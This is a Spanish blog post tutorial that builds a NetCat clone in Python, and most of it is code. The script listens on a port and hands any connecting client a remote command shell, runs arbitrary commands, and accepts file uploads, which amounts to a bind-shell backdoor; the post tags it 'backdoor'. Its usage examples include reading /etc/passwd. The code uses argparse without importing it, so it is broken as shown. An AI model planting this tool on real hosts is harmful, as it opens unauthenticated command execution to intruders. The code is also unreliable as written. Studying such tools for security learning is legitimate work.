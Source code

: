 ```yaml
---
layout: single
title: "Creando nuestro propio NetCat"
excerpt: "NetCat es una herramienta bastante util, ya que nos permite abrir puertos TCP/UPD en un host, leer y escribir datos en la red, puede ejecutar comandos remotos, puede abrir una shell remota, entre otras cosas. Aqui crearemos una en nuestro lenguaje de confianza, python. "
date: 2022-08-04 
classes: wide
header:
 teaser:
 teaser_home_page: true
categories:
  - programacion
  - ciberseguridad
tags:
  - seguridad
  - herramienta
  - networks
  - python
  - backdoor
---
```


En ocasiones vemos servidores que no tienen instalado NetCat y/o tampoco permite la instalacion de dicha herramienta, pero si que contamos con python, por lo que utilizaremos este lenguaje para montarnos una herramienta similiar al NetCat.

Vamos a ponerle de nombre al archivo **netcat.py** y empezamos importando las librerias necesarias para trabajar nuestra herramienta

```python
import socket
import shlex
import subprocess
import sys
import textwrap
import threading
```

Cabe resaltar que la libreria **subprocess** nos brinda la creacion de procesos para interactuar con los programas cliente. Creamos una funcion llamada **execute** y le pasamos como parametro ```cmd``` .  Empezamos con nuestra funcion y creamos una variable llamada cmd donde le pasamos el parametro cmd seguido del metodo _strip()_ , este metodo lo que nos hace es eliminar cualquier espacio delante o detras de la palabra. 

Despues de la sentencia if nos creamos una variable llamada **output** y haciendo uso esta misma libreria, subprocess, usamos el metodo _check_output_ que facilmente nos ejecuta un comando en el sistema operativo local y luego devuelve su resultado 

```python
def execute(cmd):
    cmd = cmd.strip()
    if not cmd:
        return
    output = subprocess.check_output(shlex.split(cmd), stderr=subprocess.STDOUT)
    return output.decode()
```


```python
class NetCat:
    def __init__(self, args, buffer=None):
        self.args = args
        self.buffer = buffer
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    def run(self):
        if self.args.listen:
            self.listen()
        else:
            self.send()

    def send(self):
        self.socket.connect((self.args.target, self.args.port))
        if self.buffer:
            self.socket.send(self.buffer)
        try:
            while True:
                recv_len = 1
                response = ''
                while recv_len:
                    data = self.socket.recv(4096)
                    recv_len = len(data)
                    response += data.decode()
                    if recv_len < 4096:
                        break
                if response:
                    print(response)
                    buffer = input('> ')
                    buffer += '\n'
                    self.socket.send(buffer.encode())
        except KeyboardInterrupt:
            print('User terminated.')
            self.socket.close()
            sys.exit()

    def listen(self):
        print('listening')
        self.socket.bind((self.args.target, self.args.port))
        self.socket.listen(5)
        while True:
            client_socket, _ = self.socket.accept()
            client_thread = threading.Thread(target=self.handle, args=(client_socket,))
            client_thread.start()

    def handle(self, client_socket):
        if self.args.execute:
            output = execute(self.args.execute)
            client_socket.send(output.encode())
        elif self.args.upload:
            file_buffer = b''
            while True:
                data = client_socket.recv(4096)
                if data:
                    file_buffer += data
                    print(len(file_buffer))
                else:
                    break
            with open(self.args.upload, 'wb') as f:
                f.write(file_buffer)
            message = f'Saved file {self.args.upload}'
            client_socket.send(message.encode())
        elif self.args.command:
            cmd_buffer = b''
            while True:
                try:
                    client_socket.send(b' #> ')
                    while '\n' not in cmd_buffer.decode():
                        cmd_buffer += client_socket.recv(64)
                    response = execute(cmd_buffer.decode())
                    if response:
                        client_socket.send(response.encode())
                    cmd_buffer = b''
                except Exception as e:
                    print(f'server killed {e}')
                    self.socket.close()
                    sys.exit()

if __name__ == '__main__':
    parser = argparse.ArgumentParser(
        description='BHP Net Tool',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog=textwrap.dedent('''Example:
          netcat.py -t 192.168.1.108 -p 5555 -l -c # command shell
          netcat.py -t 192.168.1.108 -p 5555 -l -u=mytest.whatisup # upload to file
          netcat.py -t 192.168.1.108 -p 5555 -l -e=\"cat /etc/passwd\" # execute command
          echo 'ABCDEFGHI' | ./netcat.py -t 192.168.1.108 -p 135 # echo local text to server port 135
          netcat.py -t 192.168.1.108 -p 5555 # connect to server
          '''))
          
    parser.add_argument('-c', '--command', action='store_true', help='initialize command shell')
    parser.add_argument('-e', '--execute', help='execute specified command')
    parser.add_argument('-l', '--listen', action='store_true', help='listen')
    parser.add_argument('-p', '--port', type=int, default=5555, help='specified port')
    parser.add_argument('-t', '--target', default='192.168.1.203', help='specified IP')
    parser.add_argument('-u', '--upload', help='upload file')
    args = parser.parse_args()
    if args.listen:
        buffer = ''
    else:
        buffer = sys.stdin.read()
    nc = NetCat(args, buffer.encode('utf-8'))
    nc.run()
```